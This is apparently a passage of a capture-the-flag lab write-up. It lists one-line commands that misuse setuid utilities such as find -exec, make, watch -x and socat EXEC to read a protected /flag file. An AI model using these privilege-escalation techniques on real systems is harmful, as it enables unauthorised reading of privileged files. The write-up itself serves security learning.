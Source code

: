 ## genisoimage drops the setuid
## but passing the flag in a specific argument will still show you the flag



# 24 = env cat flag

## Displays the current environment or sets the environment for the execution of a command.

# 25 = find /flag -exec cat flag \;

## try to search for exec commands or something like that 



# 26 = make -f /home/hacker/Makefile

Edit the Makefile like this
all:
	cat /flag

# 27 = nice cat flag

# 28 = timeout 5 cat /flag

# 29 = stdbuf -o 0 cat flag

# 30 = setarch i686 cat /flag 

## since they said on man page, that default is already /bin/sh , so just execute the command

# 31 = watch -x cat flag

# 32 = socat - EXEC:'cat /flag'

# 33 = whiptail --textbox flag 20 20
